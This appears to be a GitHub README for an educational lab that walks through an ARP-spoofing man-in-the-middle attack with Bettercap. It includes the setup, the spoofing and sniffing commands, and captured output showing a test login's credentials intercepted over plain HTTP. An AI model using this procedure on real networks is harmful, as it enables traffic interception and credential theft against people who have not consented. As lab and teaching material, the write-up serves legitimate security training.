 # ARP-MITM-Bettercap
> ⚠️ **Disclaimer**: This project is for educational purposes only. Do **not** perform these actions on networks you do not own or have explicit permission to test. Unauthorized access is illegal.

## LAB SET-UP
### 💻 Attacker Machine

**OS**: Kali Linux 2024.1  

**Tool Used**: Bettercap  

**IP Address**: 192.168.1.5  

**Role**: Perform ARP spoofing, sniff HTTP traffic

### 🖥️ Victim Machine

**OS**: Ubuntu or Windows 10   

**Browser**: Firefox / Chrome  

**IP Address**: 192.168.1.10  

**Role**: Target of the attack, visiting HTTP websites

### 🌐 Network Setup

**Type**: Bridged Adapter (VirtualBox)  

**Interface**: `eth0` (for attacker)  

**Same Local Network**: Yes ✅   

  Check your network  interface:  
  ```bash
  ip a
  ```
  Check your Default gateway:(victim)
  ```bash
  ip route
  ```
Install **Bettercap** if not already installed:

```bash
 sudo apt update
 sudo apt install bettercap
 ```

1. **Start Bettercap:**
    ```bash
    sudo bettercap -iface eth0
    ```

2. **Scan Network:**
    ```bash
    net.probe on
    ```
    ``` output
    192.168.1.0/24 > 192.168.1.5  » net.probe on
    [10:09:18] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [sys.log] [inf] net.probe probing 256 addresses on 192.168.1.0/24
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint fe80::1234:abcd:5678:90ef detected as **AA:BB:CC:DD:EE:01** (Generic Device Vendor)
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint 192.168.1.10 detected as **AA:BB:CC:DD:EE:02** (Generic Device Vendor)
```
  ``` bash
      net.show
   ```

3. **Set Victim IP:**
    ```bash
    set arp.spoof.targets 192.168.1.10
    ```

4. **Launch Attack:**
    ```bash
    arp.spoof on
    http.proxy on
    net.sniff on
    ```

5. **Ask the victim to visit a non-HTTPS site** (for demonstration):
    ```
    http://testphp.vulnweb.com/login.php
    ```

6. **Captured Output:**
    ```OUTPUT
    192.168.1.0/24 > 192.168.1.5  » [10:10:36] [net.sniff.http.request] http 192.168.1.10 POST testphp.vulnweb.com/userinfo.php                                                                                              POST /userinfo.php HTTP/1.1
          Host: testphp.vulnweb.com
          Origin: http://testphp.vulnweb.com
          Connection: keep-alive
          Upgrade-Insecure-Requests: 1
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
          Accept-Encoding: gzip, deflate
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 23
          Priority: u=0, i
          User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
          Accept-Language: en-US,en;q=0.5
          Referer: http://testphp.vulnweb.com/login.php

          uname=demoUser&pass=demoPass

    ```
---

## 📄 License
MIT

